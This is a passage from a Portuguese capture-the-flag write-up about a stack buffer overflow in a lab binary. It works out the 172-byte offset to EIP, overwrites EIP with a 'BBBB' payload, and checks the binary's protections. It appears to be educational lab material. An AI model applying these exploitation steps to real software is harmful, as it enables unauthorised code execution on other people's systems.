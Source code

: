 Todas as variáveis têm seu próprio tamanho, neste caso é fácil saber qual é o tamanho desta variável apenas convertendo o `0xa8` para decimal que é 168. Ok com 168 bytes preenchemos totalmente a variável, agora temos que substituir as coisas na stack até chegar ao EIP e assumir o controle do programa. O assembly já nos disse que temos `0xa8` bytes até chegarmos ao `EBP` ok, nesta arquitetura este registrador tem 4 bytes, então vamos adicionar 4 ao nosso número e temos 172.

Vamos testar?

```bash
# aqui vamos adicionar a permissão para executar o programa
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ chmod +x port-65144

# aqui entendemos como deve ser a entrada que daremos ao programa
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ ./port-65144
Enter your buffer: asdf
not this time


# aqui enviamos nosso payload com 172 caracteres "A" e 4 "B" e
# vemos que a mensagem muda para "Segmentation fault (core dumped)"
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ echo $(python3 -c "print('A' * 172)")BBBB \
| ./port-65144
Segmentation fault (core dumped)

# e aqui podemos verificar o segfault
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ dmesg | tail -n 1
[39206.428987] port-65144[5871]: segfault at 42424242 ip 0000000042424242
sp 00000000ffba4d50 error 14 in libc-2.30.so[f7dc5000+1d000]
```

Esta última mensagem nos diz que o `IP` ou `EIP` tinha o valor `0000000042424242` e o segfault estava neste endereço. Se virmos a <a href="https://www.ascii-code.com/" target="_blank">Tabela ASCII</a>, podemos confirmar que o número `0x42` (hexadecimal) é o mesmo que "B", sabendo disso, e lembrando que enviamos 4 "B" se o IP é `0000000042424242` 4 entradas de 42 .... hmm .... conseguimos! Podemos sobrescrever o `EIP`.

Agora que temos isso, vamos ver o que podemos fazer com este binário:

```bash
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ checksec port-65144
[*] '/home/reisraff/workdir/challs/port-65144/port-65144'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
reisraff@3dbbde46a935:~/workdir/challs/port-65144$
```

Não tão fácil, temos algumas <a href="https://en.wikipedia.org/wiki/Stack_buffer_overflow#Protection_schemes" target="_blank">propriedades de segurança</a> habilitadas neste binário, aquele que irá torná-lo mais difícil é o <a href="https://en.wikipedia.org/wiki/NX_bit" target="_blank">NX</a> "no execute stack". Com isso, não podemos simplesmente adicionar código malicioso em nosso payload e apontar para o endereço dele, então temos que ler o código um pouco mais, mas espera... Lembro que tínhamos algo de `flag.txt` e `open`, podemos apontar para esse local...
